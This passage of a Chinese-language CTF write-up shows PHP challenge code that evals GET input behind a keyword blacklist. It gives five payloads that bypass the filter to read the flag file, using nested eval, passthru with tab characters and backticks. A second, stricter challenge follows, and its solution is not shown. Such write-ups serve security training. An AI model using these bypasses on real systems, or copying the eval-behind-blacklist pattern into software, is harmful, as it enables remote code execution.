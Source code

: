 ```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这题屏蔽了关键词 /flag|system|php|cat|sort|shell|\.| |\'

payload:

> 1. c=eval($_GET[1]);&1=system("tac flag.php");
> 2. c=show_source(scandir(getcwd())[2]);
> 3. c=show_source(next(array_reverse(scandir(pos(localeconv())))));
> 4. c=passthru("tac%09fla*");
> 5. c=echo\`tac%09fla*\`;

#### web32

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
